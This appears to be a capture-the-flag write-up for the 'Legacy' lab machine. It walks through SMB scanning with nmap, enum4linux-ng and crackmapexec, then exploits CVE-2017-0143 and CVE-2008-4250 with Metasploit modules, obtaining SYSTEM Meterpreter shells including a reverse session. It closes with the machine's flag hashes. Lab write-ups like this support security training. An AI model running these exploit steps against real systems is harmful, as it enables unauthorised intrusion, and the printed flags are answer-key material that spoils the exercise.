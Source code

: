 Using nmap to scan 445 SMB

```php
nmap -p 445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* 10.129.227.181
```

We found these two common vulnerabilities from the scan

```php
Remote Code Execution vulnerability in Microsoft SMBv1 servers
CVE-2017-0143

Microsoft Windows system vulnerable to remote code execution
CVE-2008-4250
```

We found shares for `ADMIN$`, `C$`, `IPC$`

```php
enum4linux-ng 10.129.227.181
```

We found some version info on the machines OS

```php
OS: Windows 5.1
OS version: '5.1'
OS release: not supported
OS build: not supported
Native OS: Windows 5.1
```

Not too much useful info on `enum4linux`

```php
crackmapexec smb 10.129.227.181
```

From our output we find that SMB signing is not required 
I try to run `smbclient` but yield no results...
## CVE-2017-0143

The staged version of the exploit failed on us

```php
exploit(windows/smb/ms17_010_eternalblue)
[*] 10.129.227.181:445    - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.227.181:445 - The target is vulnerable.
[-] 10.129.227.181:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
```

Non staged version landed us a shell

```php
exploit(windows/smb/ms17_010_psexec)
meterpreter > shell
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
```

We have gained a root shell on legacy

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
## CVE-2008-4250
We have plenty of options

Landed us a shell on the system

```php
exploit(windows/smb/ms08_067_netapi)
[*] Meterpreter session 2 opened (10.10.14.209:4444 -> 10.129.227.181:1045) at 2025-06-02 07:30:55 -0400
meterpreter > 
```

We have gained a root shell on legacy

```php
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Exploring the directories we find the flags for user john and the administrator user

User John: `e69af0e4f443de7e36876fda4ec7644f`
User Admin: `993442d258b0e0ec917cae9e695d5713`
